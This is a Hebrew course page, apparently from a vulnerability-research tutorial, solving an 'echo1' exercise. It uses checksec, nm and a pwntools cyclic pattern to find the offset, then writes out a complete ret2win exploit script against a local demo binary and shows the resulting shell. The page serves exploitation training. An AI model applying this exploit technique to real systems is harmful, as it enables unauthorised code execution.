

repository: AmitPinchasi/amittech · page: מחקר-חולשות/8 - הנדסה הפוכה לניצול/8.8 - שירותי echo וheap משולב/8.8 - שירותי echo וheap משולב - פתרון/index.html · generator: mkdocs

## פתרון - שירותי echo וheap משולב

נעבור אתגר אחרי אתגר עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. הכתובות בפלט הן דוגמה - אצלכם הן עשויות להיות מעט שונות בין גרסאות מהדר וסביבות, אז תמיד תשלפו את הכתובות מהבינארי שלכם ולא תעתיקו עיוור. את הדמואים (`echo1_demo`, `fsb_demo`, `dragon_demo`, `horcruxes_demo`) לוקחים מקוד המקור שבהרצאה.

### פתרון תרגיל 1 - echo1: הoverflow ל-ret2win

בדיקת ההגנות:

```bash
$ checksec --file=./echo1_demo
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

הדגל `No canary` אומר שהoverflow לא תיתפס. הדגל `No PIE` אומר שכתובת `get_shell` קבועה בכל הרצה. הדגל `NX enabled` אומר שלא נריץ shellcode אלא נקפוץ לקוד קיים. כלומר: `ret2win`.

כתובת הפונקציה המנצחת:

```bash
$ nm echo1_demo | grep get_shell
0000000000401186 T get_shell
```

מציאת ה-offset עם cyclic. הbuffer הוא 32 בתים, ומעליו `saved rbp` של 8, כלומר צפוי 40 - אבל תמדדו:

```python
from pwn import *
context.binary = ELF('./echo1_demo')
p = process()
p.sendlineafter(b'name: ', b'me')
p.sendlineafter(b'> ', b'1')
p.sendafter(b'echo> ', cyclic(120))
p.wait()
core = p.corefile
log.info('offset = %d', cyclic_find(core.read(core.rsp, 8)))   # -> 40
```

ה-exploit המלא, עם גאדג'ט `ret` בודד לalignment מול `system`:

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./echo1_demo')

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]       # stack alignment to 16 bytes

p = process()
p.sendlineafter(b'name: ', b'me')
p.sendlineafter(b'> ', b'1')            # enter echo

payload = flat({40: [ret, elf.symbols['get_shell']]})
p.sendafter(b'echo> ', payload)
p.interactive()
```

הפלט, ואז shell:

```text
$ id
uid=1000(user) gid=1000(user) ...
```

אם היינו משמיטים את גאדג'ט ה-`ret`, היינו רואים קריסה קלאסית ב-gdb:

```text
Program received signal SIGSEGV
=> 0x7ffff7e4a3b1 <do_system+915>: movaps XMMWORD PTR [rsp+0x50], xmm0
```

למה זה עבד: הoverflow נתנה לנו שליטה ב-RIP, ומכיוון שיש `get_shell` בכתובת קבועה (No PIE), הפרימיטיב מתרגם ישירות ל-`ret2win`. גאדג'ט ה-`ret` יישר את `rsp` ל-16 בתים כדי ש-`movaps` בתוך `do_system` לא יקרוס. איך להכליל: בכל שירות echo/תפריט שמוביל לפונקציה עם overflow - זהו את הפונקציה המנצחת, מדדו offset, וקפצו. זה השלד המינימלי.
